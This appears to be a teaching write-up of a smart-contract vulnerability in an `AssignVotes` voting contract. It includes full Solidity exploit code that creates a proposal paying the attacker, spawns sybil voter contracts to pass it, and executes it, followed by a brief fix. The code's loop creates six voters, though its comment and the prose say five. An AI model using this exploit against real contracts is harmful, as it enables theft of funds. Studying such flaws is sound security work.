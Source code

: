 ## Vulnerability and Takeaways

The vulnerability in this code lies in the `AssignVotes` contract's ability to assign votes to any address, including the attacker's contract. The `MaliciousContract` contract takes advantage of this by creating a proposal and then creating two instances of `ProposalVoterCreator` contracts to create voters to vote on the proposal. Each `ProposalVoterCreator` contract creates five `Voter` contracts and assigns each of them to vote on the proposal. Since the attacker controls the `ProposalVoterCreator` contract, they can assign the voters to vote for their proposal, effectively controlling the outcome of the proposal.

```solidity
contract MaliciousAssignVotesContract {
    AssignVotes immutable victim;

    constructor(address _victimAdd) {
        victim = AssignVotes(_victimAdd);

        // Get the current proposal number
        uint256 proposalNumber = victim.proposalCounter();

        // Create a proposal to assign votes to this contract
        victim.createProposal(address(this), "", 1 ether);

        // Create two ProposalVoterCreator contracts to assign voters to the proposal
        ProposalVoterCreator proposalVoterCreator0 = new ProposalVoterCreator(
            _victimAdd,
            proposalNumber
        );
        ProposalVoterCreator proposalVoterCreator1 = new ProposalVoterCreator(
            _victimAdd,
            proposalNumber
        );

        // Execute the proposal
        victim.execute(proposalNumber);
    }

    receive() external payable {}
}

// Contract to create voters for a proposal
contract ProposalVoterCreator {
    AssignVotes immutable victim;

    constructor(address _victimAdd, uint256 _proposalNumber) {
        victim = AssignVotes(_victimAdd);

        // Create five Voter contracts to vote on the proposal
        for (uint8 i; i < 6; i++) {
            Voter voterI = new Voter(_victimAdd);

            victim.assign(address(voterI));

            // Vote on the proposal using the voter contract
            voterI.vote(_proposalNumber);
        }
    }
}
```

One possible solution to prevent the exploit in this code would be to implement stricter access control mechanisms, such as only allowing certain trusted addresses to assign votes. This would prevent any unauthorized actors from assigning votes and manipulating the outcome of proposals.
